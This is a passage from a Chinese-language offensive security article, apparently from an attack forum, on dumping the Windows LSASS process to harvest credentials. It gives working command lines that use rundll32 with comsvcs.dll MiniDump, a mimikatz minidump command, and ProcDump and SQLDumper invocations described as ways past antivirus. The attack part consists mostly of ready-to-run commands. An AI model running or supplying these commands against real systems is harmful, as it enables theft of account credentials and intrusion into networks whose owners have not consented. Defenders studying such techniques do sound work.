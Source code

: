 参考：<https://www.pentestpartners.com/security-blog/dumping-lsass-in-memory-undetected-using-mirrordump/>

0x06 注意
=======

mimikatz 执行

```php
sekurlsa::minidump
```

lsass 的dmp文件用不用是标准格式的dmp文件

其实只要拿回来的内存区域是正确的 就可以

0x07 命令执行
=========

注：要去使用powershell，默认的cmd没有sedebug权限

```php
rundll32.exe C:\Windows\System32\comsvcs.dll,MiniDump (Get-Process lsass).Id Test.dmp full;Wait-Process -Id (Get-Process rundll32).id
```

```php
for /f "tokens=1,2 delims= " ^%A in ('"tasklist /fi "Imagename eq lsass.exe" | find "lsass""') do C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump ^%B lsass.dmp full
```

```php
powershell "rundll32 C:\windows\System32\comsvcs.dll, MiniDump 520 lsass.dmp full"
```

0x08 工具分享
=========

微软商店ProcDump
------------

已失效

我们首先尝试使用微软商店工具 `ProcDump` 绕过杀软，它拥有微软签名

因为是微软自己的工具，所以看看他是不是能获取系统和杀软的信任

项目地址：<https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump>

```php
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

![image-20220420195045664](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-f5a0c8a83765702b5496b83d169fd32247984fce.png)

SQLDumper.exe
-------------

已失效，和ProcDump一样，拥有微软签名

![image-20220420195104787](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-37b24924f5c569dc39e50cb8d95929ff3bc6725a.png)
